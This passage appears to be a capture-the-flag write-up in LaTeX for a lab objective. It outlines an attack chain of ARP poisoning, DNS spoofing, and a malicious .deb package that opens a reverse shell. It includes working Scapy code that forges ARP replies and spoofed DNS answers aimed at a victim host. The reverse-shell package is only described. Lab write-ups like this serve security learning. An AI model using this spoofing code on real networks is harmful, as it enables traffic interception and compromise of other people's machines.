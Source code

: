 \chapter{Objective 9 - How To}
Based on the objective description and a quick \textit{tcpdump},
our heroes need to:
\begin{itemize}
\item Poison ARP. When this is done, another network monitoring will reveal that we need to respond to some DNS request.
\item Respond to DNS. When this is done, yet another network monitoring will reveal that the victim tries to get access to some debs.
\item Manufacture DEB so that we get reverse shell.
\item Set up listener for our reverse shell.
\end{itemize}

Based on the above, the first script we need to modify is the ARP\footnote{Please note, those scripts only respond to the first request and exit.}
\begin{verbatim}
v_macaddr = packet[ARP].hwsrc
v_ipaddr = packet[ARP].psrc

ether_resp = Ether(dst=v_macaddr, type=0x806, src=macaddr)

arp_response = ARP(pdst=v_ipaddr)
arp_response.op = 0x2 # Response
arp_response.plen = 0x4
arp_response.hwlen = 6
arp_response.ptype = 0x800
arp_response.hwtype = 0x1

arp_response.hwsrc = macaddr # Our MAC
arp_response.psrc = "10.6.6.53" # Our IP, or at least the one he wants to talk to.
arp_response.hwdst = v_macaddr # Victim MAC
arp_response.pdst = v_ipaddr # Victim IP

\end{verbatim}
Your DNS script should be modified like
\begin{verbatim}
ipaddr_we_arp_spoofed = "10.6.6.53"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src=macaddr, dst="4c:24:57:ab:ed:84")   # need to replace mac addresses
    ip  = IP(dst="10.6.6.35", src=ipaddr_we_arp_spoofed)                          # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=53)                             # need to replace ports
    dns = DNS(
        id=packet[DNS].id,
        qd=packet[DNS].qd,
        aa = 1,
        qr=1,
        an=DNSRR(rrname=packet[DNS].qd.qname,  ttl=10, rdata=ipaddr)
    )
    dns_response = eth / ip / udp / dns
\end{verbatim}

